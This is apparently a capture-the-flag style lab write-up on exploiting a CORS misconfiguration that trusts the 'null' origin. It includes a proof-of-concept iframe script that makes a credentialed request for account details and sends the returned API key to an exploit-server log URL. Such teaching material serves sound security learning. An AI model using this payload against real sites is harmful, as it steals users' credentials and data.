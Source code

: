 Here is the request that retrieves the API key:
![](imgs/cors_trusted_null_origin.png)

Let's try specifying `Origin: null`:
![](imgs/cors_trusted_null_origin-1.png)
We can see that the header appears, with `null` as the type.

In order to create a `null` origin, we have to add an `iframe` (I did not know this, seems like the `iframe` makes the origin behave as `null`).

We have to create a PoC using `iframe`:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Sending this script leads us to the leakage of the API key as the origin was null and it accepts `null` origins:
![](imgs/cors_trusted_null_origin-2.png)